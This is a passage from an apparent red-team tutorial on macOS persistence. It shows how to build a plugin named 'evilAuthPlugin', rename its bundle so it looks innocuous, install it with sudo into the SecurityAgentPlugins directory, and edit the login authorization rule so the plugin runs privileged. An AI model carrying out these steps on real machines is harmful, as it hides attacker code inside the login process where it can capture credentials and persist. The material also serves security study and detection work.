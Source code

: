 opening the project in XCode, there are some housekeeping items to be performed first.

![alt text](/plugin-info.png)

the `info.plist` shows the high-level details of the plugin, including the bundle name and bundle identifier. we'll change this to be something a little more innocuous.

![alt text](/plugin-name.png) 
 
![alt text](/plugin-bundleID.png)

note: the bundle name and identifier should match. 

build the project in XCode (Product -> Build), and then access the build via the Products directory on the left. when you find it in Finder, compress it and copy it over to the `/Library/Security/SecurityAgentPlugins` directory. once it's copied over, unzip it into the directory.

```bash
$ sudo cp evilAuthPlugin.bundle.zip /Library/Security/SecurityAgentPlugins

$ sudo unzip evilAuthPlugin.bundle.zip             
Archive:  evilAuthPlugin.bundle.zip
   creating: evilAuthPlugin.bundle/
   creating: evilAuthPlugin.bundle/Contents/
   creating: evilAuthPlugin.bundle/Contents/_CodeSignature/
   creating: evilAuthPlugin.bundle/Contents/MacOS/
  inflating: evilAuthPlugin.bundle/Contents/Info.plist  
  inflating: evilAuthPlugin.bundle/Contents/_CodeSignature/CodeResources  
  inflating: evilAuthPlugin.bundle/Contents/MacOS/evilAuthPlugin  
```

before proceeding, we have to modify the `poc.plist` file. add the following line: `<string>BundleName:login,privileged</string>` to the file, so that it looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>class</key>
	<string>evaluate-mechanisms</string>
	<key>comment</key>
	<string>Login mechanism based rule.  Not for general use, yet.</string>
	<key>created</key>
	<real>719346785.95490503</real>
	<key>mechanisms</key>
	<array>
		<string>builtin:prelogin</string>
		<string>builtin:policy-banner</string>
		<string>loginwindow:login</string>
		<string>builtin:login-begin</string>
		<string>builtin:reset-password,privileged</string>
		<string>loginwindow:FDESupport,privileged</string>
		<string>builtin:forward-login,privileged</string>
		<string>builtin:auto-login,privileged</string>
		<string>builtin:authenticate,privileged</string>
		<string>PKINITMechanism:auth,privileged</string>
		<string>builtin:login-success</string>
		<string>loginwindow:success</string>
		<string>HomeDirMechanism:login,privileged</string>
		<string>HomeDirMechanism:status</string>
		<string>BundleName:login,privileged</string>
		<string>MCXMechanism:login</string>
		<string>CryptoTokenKit:login</string>
		<string>loginwindow:done</string>
```